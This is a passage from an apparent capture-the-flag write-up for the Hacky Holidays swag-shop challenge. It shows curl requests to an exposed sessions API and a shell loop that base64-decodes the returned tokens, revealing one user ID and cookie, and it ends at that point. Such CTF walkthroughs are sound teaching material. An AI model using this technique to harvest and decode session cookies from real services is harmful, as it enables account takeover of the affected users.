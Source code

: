 ```
curl https://hackyholidays.h1ctf.com/swag-shop/api/sessions | jq
{
  "sessions": [
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=",
    "eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="
  ]
}

```

sessions look like base64 encoded json data, by decoding the data all of them look very similar except for this one, that has some data in user field.

```
$ for i in $(curl https://hackyholidays.h1ctf.com/swag-shop/api/sessions | jq -r ".sessions|.[]"); do printf $i|base64 -d;echo; done
{"user":null,"cookie":"YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="}
{"user":null,"cookie":"ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="}
{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
{"user":null,"cookie":"MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="}
{"user":null,"cookie":"M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MTg4MjI3ZGRkMTllZTM2ZDkxMGVlNWEwNmZiZWFkZjZhODg4MDY3ODlmZGRhYTM1Y2IyMGVhMjA1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="}
{"user":null,"cookie":"MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0MmZlZjMwYmJjZmQ4ZTU0Y2YxYzVmZTM1N2Q1ODY2YjFkZmFiNmI5ZjI1M2M2MDViNjA0ZjFjNDVkNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="}
{"user":null,"cookie":"MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMmI5OTcyMDlkNTJhZTc4YjUxZjIzN2Q4NmRjNjg2NmU1MzVlOWEzOTE5NWYyOTcwNmJlZDIyNDgyMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="}
{"user":null,"cookie":"OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4NDhhODRmNjI0NDRjZTdlZTg0ZTUwNzZmZDdkYTJjN2IyODY5YjcxZmI5ZGRiYTgzZjhiZDViOWZjMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="}

```
